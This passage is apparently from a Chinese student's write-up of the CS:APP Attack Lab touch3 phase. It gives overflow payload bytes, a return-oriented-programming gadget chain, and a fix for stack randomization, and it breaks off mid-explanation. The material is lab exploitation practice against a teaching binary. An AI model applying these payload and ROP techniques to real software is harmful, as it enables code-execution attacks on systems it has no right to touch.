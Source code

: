 通过ROP实现一下代码的功能：

```asm
mov $0x5561dca8, %rdi #0x5561dca8由查看getbuf中初始rsp为0x5561dca0，然后加上返回地址所占的8个字节，则得到test函数的栈底地址
pushq $0x4018fa
retq

/* 48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00					a0 a8 b0 b8 
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61 */  getbuf中返回地址为0x5561dca0？
```

思路分析：

+ 将cookie的ascii码存放在address处
+ push address的地址
+ pop出address给rax
+ `mov $address, %rdi` address地址未定

+ 注入0x4018fa，返回

得到答案：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 dc 61 55 00 00 00 00 //字符串起始地址
cc 19 40 00 00 00 00 00 //pop %rax
c5 19 40 00 00 00 00 00 //mov %rax, %rdi
fa 18 40 00 00 00 00 00 //
35 39 62 39 39 37 66 61
```

**结果不正确，原因：栈随机化使得无法提前获得字符串的地址**

修正：拿到rsp后进行动态偏移

[1. 知乎用户@Yannick的答案](https://zhuanlan.zhihu.com/p/104340864)(**个人认为不够标准，因为使用了不在farm范围内的gadget，5e**)

构造如下的情况：

```
1.拿到rsp存的地址
2.对这个地址进行加减常量运算，使其指向cookie的地址
3.把这个地址放到rdi中
4.调用touch3
即 %rdi = %rsp + bias = address of cookie
```

关键指令为:
